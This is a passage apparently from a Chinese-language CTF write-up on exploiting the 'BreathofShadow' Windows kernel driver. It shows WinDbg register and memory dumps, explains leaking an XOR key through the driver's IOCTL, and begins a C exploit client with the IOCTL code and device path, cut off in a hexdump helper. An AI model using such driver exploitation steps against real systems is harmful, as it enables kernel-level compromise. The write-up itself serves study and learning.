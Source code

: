 | register | Value |
|----|----|
|r8d|OutputBufferLength|
|rdx|Dst|
|rcx|InputBuffer|

看 windbg

```
kd> g
Breakpoint 1 hit
BreathofShadow+0x50ba:
fffff800`134050ba e8c1c0ffff      call    BreathofShadow+0x1180 (fffff800`13401180)

kd> r r8
r8=0000000000000100
kd> dq rcx
00000000`00aa1420  81818181`81818181 81818181`81818181
00000000`00aa1430  81818181`81818181 81818181`81818181
00000000`00aa1440  81818181`81818181 81818181`81818181
00000000`00aa1450  81818181`81818181 81818181`81818181
00000000`00aa1460  81818181`81818181 81818181`81818181
00000000`00aa1470  81818181`81818181 81818181`81818181
00000000`00aa1480  81818181`81818181 81818181`81818181
00000000`00aa1490  81818181`81818181 81818181`81818181
kd> dq rdx
ffff8104`0cf63540  f41b3021`93062445 f41b3021`93062445
ffff8104`0cf63550  f41b3021`93062445 f41b3021`93062445
ffff8104`0cf63560  f41b3021`93062445 f41b3021`93062445
ffff8104`0cf63570  f41b3021`93062445 f41b3021`93062445
ffff8104`0cf63580  f41b3021`93062445 f41b3021`93062445
ffff8104`0cf63590  f41b3021`93062445 f41b3021`93062445
ffff8104`0cf635a0  f41b3021`93062445 f41b3021`93062445
ffff8104`0cf635b0  f41b3021`93062445 f41b3021`93062445
```

現在 rdx 是 Dst，也就是被 xor 過的值
那總之第一步先來 xor key

### Xor Key

先上腳本，這樣就可以 leakkey 了，先把一串 0x81 丟進去，他會丟出 xor 結果，xor 回來就可以了

```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>

#define DeVioctlCode 0x9C40240B
#define DeviceName L"\\\\.\\BreathofShadow"

void hexdump(const void* data, size_t size)
{
    const unsigned char* byteData = (const unsigned char*)data;
    size_t i, j;

    for (i = 0; i < size; i += 16) {
        printf("%08zx  ", i);

        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                printf("%02x ", byteData[i + j]);
            } else {
                printf("   ");
```